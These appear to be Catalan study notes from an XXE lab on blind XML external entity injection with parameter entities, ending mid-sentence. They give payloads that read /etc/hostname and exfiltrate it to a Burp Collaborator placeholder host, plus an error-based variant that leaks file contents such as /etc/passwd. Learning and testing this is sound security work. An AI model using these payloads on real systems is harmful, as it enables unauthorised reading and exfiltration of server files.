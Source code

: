
---

Veiem aixo tambe sempre
![[Pasted image 20250806193303.png]]

Proceim a crear una Entitat de Parametres (Externes - són externes quan s'utlitlza system)
![[Pasted image 20250806193559.png]]

Fem aquesta peticio, dient que ens fagi una peticio al nostre domini de BurpCollaborator, i veiem que ens retorna un error, i aixo ja es algo bo, ja que amb les altres entitatrs no fa res

ara farem 3 entitats, per poder veure un arxiu que volguem

```
	<!ENTITY % file SYSTEM "file:///etc/hostname">
	<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM'https://IP_BURPCOLLABORATOR/?content=%file;'>">
	%eval;
	%exfil;
```

si aixo li passem a la victima a l'exploit server, veuerem el hostname.

Si provessim de fer el etc/passwd, veiem que ens dona un error per qeu es un arxiu molt gran, hem de fer aixo:

```
	<!ENTITY % file SYSTEM "file:///etc/hostname">
	<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///noexisto/%file;'>">
	%eval;
	%exfil;
```

en aquest cas doncs veuerm tot el contingut en el missatge de error ja que realment amb %file ja ho carreguem tot
![[Pasted image 20250806194819.png]]
<h1>dubtes</h1>
# Per què NO podem fer directament:

<ENTITY % file SYSTEM "file:///etc/hostname">
<ENTITY % exfil SYSTEM "https://IP_BURPCOLLABORATOR/?content=%file;">
%exfil;

Per què això no funciona?

    Les entitats paràmetre % no s’expandeixen dins la definició d’una altra entitat.

    Això vol dir que dins la línia que defineix %exfil, si posem %file; directament, no es substituirà pel contingut de /etc/hostname.

    El parser XML només substitueix entitats paràmetre en línies diferents, no dins de la mateixa definició.

### Per què fem servir `%eval` com a entitat paràmetre?

- No podem posar directament una entitat paràmetre dins la definició d’una altra perquè el parser no substitueix `%file;` dins la definició de `%exfil`.
    
- Però podem definir una entitat que **conté el codi per definir una altra entitat**, i després expandir-la.
    
- `%eval` conté el text: